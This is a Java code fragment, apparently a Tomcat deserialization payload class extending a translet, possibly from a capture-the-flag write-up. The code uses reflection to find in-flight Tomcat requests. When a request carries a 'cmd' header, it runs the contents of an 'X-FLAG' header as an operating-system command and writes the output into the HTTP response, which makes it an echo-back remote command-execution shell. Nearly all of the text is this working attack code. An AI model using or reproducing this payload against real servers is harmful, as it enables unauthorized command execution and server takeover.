 ```java
                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                    if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                        Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                        for (int j = 0; j < classes.length; j++) {
                            if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                                java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                                java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                                globalField.setAccessible(true);
                                processorsField.setAccessible(true);
                                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                                java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                                for (int k = 0; k < list.size(); k++) {
                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                    if ("cmd".equals(tempRequest.getHeader("cmd"))) {
                                        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                        String cmd = tempRequest.getHeader("X-FLAG");
                                        //String[] cmds =  new String[]{"cmd.exe", "/c", "whoami"};
                                        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                                        java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                        String output = s.hasNext() ? s.next() : "";
                                        java.io.Writer writer = request.getResponse().getWriter();
                                        java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                        usingWriter.setAccessible(true);
                                        usingWriter.set(request.getResponse(), Boolean.FALSE);
                                        writer.write(output);//输出
                                        writer.flush();
                                        break;
                                    }
                                }
                                break;
                            }
                        }
                    }
                    break;
                }
            }
        }catch (Exception e){
        }
    }



    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }
```